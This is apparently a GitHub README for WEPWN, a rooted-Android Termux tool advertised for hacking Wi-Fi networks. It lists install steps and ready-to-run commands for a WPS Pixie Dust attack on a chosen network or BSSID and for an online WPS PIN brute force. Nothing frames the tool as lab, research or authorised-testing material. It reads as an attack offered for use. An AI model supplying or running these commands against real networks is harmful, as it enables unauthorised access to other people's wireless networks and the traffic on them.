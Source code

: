 <h1 align="center">WEPWN</h1>
<h4 align="center">Hack WIfi Using Termux! (Requires Root)</h4>
<p align="center"><img src=".assets/demo2.gif"></p>

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install -y root-repo -y
pkg install -y git tsu python termux-api wpa-supplicant pixiewps iw
git clone https://github.com/ITSN0B1T4/wepwn
cd wepwn
chmod +x wepwn.py
```
#### Help : `sudo python wepwn.py --help`
#### Example : `sudo python wepwn.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wepwn.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wepwn.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wepwn.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**


#### Real Author : rofl0r => BiRi_B@B@ => Meh
